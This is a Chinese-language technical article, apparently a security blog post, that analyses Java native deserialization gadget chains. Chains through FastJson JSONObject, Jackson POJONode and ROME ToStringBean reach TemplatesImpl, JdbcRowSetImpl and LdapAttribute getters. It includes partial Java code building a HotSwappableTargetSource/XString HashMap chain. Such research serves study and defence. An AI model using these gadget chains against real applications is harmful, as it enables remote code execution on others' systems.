 [TemplatesImpl](#TemplatesImpl)

[JdbcRowSetImpl](#JdbcRowSetImpl)

[LdapAttribute](#LdapAttribute)

[多打几次拼运气（×）](#%E5%A4%9A%E6%89%93%E5%87%A0%E6%AC%A1%E6%8B%BC%E8%BF%90%E6%B0%94%EF%BC%88%C3%97%EF%BC%89)

[找一个没有get方法的父类或接口（×）](#%E6%89%BE%E4%B8%80%E4%B8%AA%E6%B2%A1%E6%9C%89get%E6%96%B9%E6%B3%95%E7%9A%84%E7%88%B6%E7%B1%BB%E6%88%96%E6%8E%A5%E5%8F%A3%EF%BC%88%C3%97%EF%BC%89)

[1.12.0后的修复](#1.12.0%E5%90%8E%E7%9A%84%E4%BF%AE%E5%A4%8D)

[工具实现](#%E5%B7%A5%E5%85%B7%E5%AE%9E%E7%8E%B0)

[参考](#%E5%8F%82%E8%80%83)

---


### 前言

所谓特殊反序列化，就是指自实现了序列化/反序列化逻辑的组件，本文主要讨论以下三种

#### 本文所述攻击的本质是**将上述组件中的类拼接到反序列化利用利用链中，打的是Serilizable入口，而不是特殊反序列化入口**

篇幅有限，无法对上述组件进行详细介绍，请还没了解的读者自行查阅有关文章

### 攻击原理

**这些组件**在实现自己的序列化逻辑（获取对象field值）时，会使用**自身类**重写的**toString**方法

在**这些类**的toString方法中，会调用**目标类**（也就是放在这些类中的Gadget后半部分，例如TemplatesImpl）的**getter方法**以获取**目标类**对象中的field值

**目标类**`obj`放在**这些类**中

如 `jsonObject1.put("g",obj);` `ToStringBean toStringBean = new ToStringBean(obj.getClass(),obj);`

**这些类**包括：`FastJson的JSONObject类、Jackson的POJONode类，ROME的ToStringBean类`

**目标类**getter：`TemplatesImpl#getOutputProperties、LdapAttribute#getAttributeDefinition、JdbcRowsetImpl#getDatabaseMetaData`

值得一提的是，由于是原生反序列化中的攻击，所以要求利用链上的类都要实现Serilizable接口，因此无法使用BCEL那条链（仅特殊反序列化如FastJson可用）

### 利用链分析

#### readObject()-&gt;任意类toString()

##### HotSwappableTargetSource &amp; XString

**依赖于SpringAOP**

测试代码如下（以JsonObject为例）

```
public static void main(String[] args) throws Exception {        
        Object templatesimpl = null;
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("g","m");
        JSONObject jsonObject1 = new JSONObject();
        jsonObject1.put("g",templatesimpl);

        HotSwappableTargetSource v1 = new HotSwappableTargetSource(jsonObject);
        HotSwappableTargetSource v2 = new HotSwappableTargetSource(new XString("x"));

        HashMap&lt;Object,Object&gt; hashMap = new HashMap&lt;&gt;();
        hashMap.put(v1,v1);
        hashMap.put(v2,v2);
```